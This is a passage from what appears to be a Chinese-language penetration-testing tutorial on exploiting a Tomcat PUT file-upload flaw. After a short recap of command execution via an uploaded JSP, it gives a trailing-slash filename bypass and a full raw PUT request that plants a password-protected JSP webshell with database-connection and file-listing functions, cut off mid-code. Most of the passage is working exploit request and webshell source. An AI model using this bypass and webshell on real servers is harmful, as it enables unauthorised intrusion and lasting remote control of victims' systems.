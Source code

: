 可以看到返回响应码 201，说明我们上传成功了。我们访问我们 jsp 脚本试试：

![image](img/8289cde86ccdf40ec377b58a815ab417.png)

看到可以命令执行(我们上传的 payload 是命令执行的脚本)，我们也可以上传一个 jsp 的 webshell

##### 上传姿势二：

我们知道 servlet 在识别 1.jsp/时会把它当作非 jsp 文件交给 DefaultServlet 来处理，而后续保存文件的时候，文件名不接受/字符，故而忽略掉

payload：(这次我们演示上传一个 webshell)

```
PUT /webshell.jsp/ HTTP/1.1  
Host: 172.26.1.8:8080  
Content-Length: 6239  

<%@page import="java.io.*,java.util.*,java.net.*,java.sql.*,java.text.*"%>  
<%!  
  String Pwd = "hetian";  
  String cs = "UTF-8";  

   String EC(String s) throws Exception {  
       return new String(s.getBytes("ISO-8859-1"),cs);  
   }  

   Connection GC(String s) throws Exception {  
       String[] x = s.trim().split("choraheiheihei");  
     Class.forName(x[0].trim());  
      if(x[1].indexOf("jdbc:oracle")!=-1){  
          return DriverManager.getConnection(x[1].trim()+":"+x[4],x[2].equalsIgnoreCase("[/null]")?"":x[2],x[3].equalsIgnoreCase("[/null]")?"":x[3]);  
      }else{  
          Connection c = DriverManager.getConnection(x[1].trim(),x[2].equalsIgnoreCase("[/null]")?"":x[2],x[3].equalsIgnoreCase("[/null]")?"":x[3]);  
        if (x.length > 4) {  
              c.setCatalog(x[4]);  
          }  
          return c;  
       }  
   }  

  void AA(StringBuffer sb) throws Exception {  
      File k = new File("");  
      File r[] = k.listRoots();  
       for (int i = 0; i < r.length; i++) {  
         sb.append(r[i].toString().substring(0, 2));  
     }  
  }  

   void BB(String s, StringBuffer sb) throws Exception {  
       File oF = new File(s), l[] = oF.listFiles();  
     String sT, sQ, sF = "";  
        java.util.Date dt;  
      SimpleDateFormat fm = new SimpleDateFormat("yyyy-MM-dd HH:mm:ss");  
     for (int i = 0; i < l.length; i++) {  
          dt = new java.util.Date(l[i].lastModified());  
```